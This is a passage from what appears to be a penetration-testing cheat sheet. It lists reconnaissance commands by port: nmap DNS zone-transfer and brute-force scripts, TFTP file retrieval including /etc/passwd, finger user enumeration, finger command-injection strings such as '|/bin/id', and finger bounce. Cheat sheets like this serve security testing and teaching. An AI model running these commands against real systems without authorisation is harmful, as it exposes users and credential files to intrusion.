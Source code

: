 Fierce -dns example.com -threads 3

### nmap dns zone transfers

nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com

#### nmap dns brute scan

nmap -p 80 --script dns-brute.nse vulnweb.com

### Port 69 - UDP - TFTP

This is used for tftp-server.

TFTP port 69 open 
o	TFTP Enumeration 
o	tftp *target* PUT local_file 
o	tftp *target* GET conf.txt (or other files) 
o	Solarwinds TFTP server 
o	tftp - i *target* GET /etc/passwd (old Solaris) 
TFTP Bruteforcing 
o	TFTP bruteforcer 
o	Cisco-Torch 


### PORT 79 FINGER

Finger Port 79 open 

```
User enumeration 
o	finger 'a b c d e f g h' @example.com 
o	finger admin@example.com 
o	finger user@example.com 
o	finger 0@example.com 
o	finger .@example.com 
o	finger **@example.com 
o	finger test@example.com 
o	finger @example.com 
Command execution 
o	finger "|/bin/id@example.com" 
o	finger "|/bin/ls -a /@example.com" 
Finger Bounce 
o	finger user@host@victim 
o	finger @internal@external
```

### Port 80 / 8080 - Web server
- Server:
- Scripting language:
- Apache Modules:
- IP-address:
- Domain-name address:
